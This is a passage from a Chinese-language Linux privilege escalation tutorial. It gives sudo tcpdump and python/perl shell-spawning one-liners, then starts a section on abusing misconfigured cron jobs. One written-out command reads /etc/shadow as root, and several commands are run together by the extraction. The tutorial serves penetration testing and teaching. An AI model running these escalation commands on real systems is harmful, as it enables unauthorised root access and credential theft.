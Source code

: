 echo $’id\ncat /etc/shadow’ > /tmp/.testchmod +x /tmp/.testsudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

**python/perl/ruby/lua/php/etc**

**python**

python -c “import os;os.system(‘/bin/bash’)”

**perl**

exec “/bin/bash”;

**0x008 linux提权—利用定时任务（Cron jobs）**
-----------------------------------

如果未正确配置Cronjob，则可以利用该Cronjob获得root特权。

1. Cronjob中是否有可写的脚本或二进制文件？  
2.我们可以覆盖cron文件本身吗？  
3. cron.d目录可写吗？

Cronjob通常以root特权运行。如果我们可以成功篡改cronjob中定义的任何脚本或二进制文件，那么我们可以以root特权执行任意代码。

### 什么是Cronjob？

Cron Jobs被用于通过在服务器上的特定日期和时间执行命令来安排任务。它们最常用于sysadmin任务，如备份或清理/tmp/目录等。Cron这个词来自crontab，它存在于/etc目录中。

例如：在crontab内部，我们可以添加以下条目，以每1小时自动打印一次apache错误日志。

<table width="576"><tbody style="max-width: 100%;margin: 1em !important;box-sizing: border-box !important;overflow-wrap: break-word !important;line-height: 1.8em !important;letter-spacing: 0.1em !important;"><tr style="max-width: 100%;margin: 1em !important;box-sizing: border-box !important;overflow-wrap: break-word !important;line-height: 1.8em !important;letter-spacing: 0.1em !important;"><td width="253" valign="top" style="word-break: break-all;max-width: 100%;margin: 1em !important;overflow-wrap: break-word !important;box-sizing: border-box !important;line-height: 1.8em !important;letter-spacing: 0.1em !important;text-align: left;">1</td><td width="253" valign="top" style="word-break: break-all;max-width: 100%;margin: 1em !important;overflow-wrap: break-word !important;box-sizing: border-box !important;line-height: 1.8em !important;letter-spacing: 0.1em !important;text-align: left;">1&nbsp;0&nbsp;*&nbsp;*&nbsp;*&nbsp;printf&nbsp;“”&nbsp;&gt;&nbsp;/var/log/apache/error_log</td></tr></tbody></table>

前五个数字值表示执行cronjob的时间。现在让我们了解五个数字值。

*   分钟–第一个值表示介于0到59之间的分钟范围，而*表示任何分钟。
    
*   小时–第二个值表示小时范围在0到24之间，*表示任何小时。
    
*   月中的某天–第三个值表示月中的某日，范围是1到31，*表示任何一天。
    
*   月–第四个值表示1到12之间的月份范围，*表示任何月份。
    
*   星期几–第五个值表示从星期天开始的星期几，介于0到6之间，*表示星期几。
    

**简而言之呢，**crontab**就是一个自定义定时器。**

### Cron特权升级概述

cron守护程序计划在指定的日期和时间运行命令。它与特定用户一起运行命令。因此，我们可以尝试滥用它来实现特权升级。
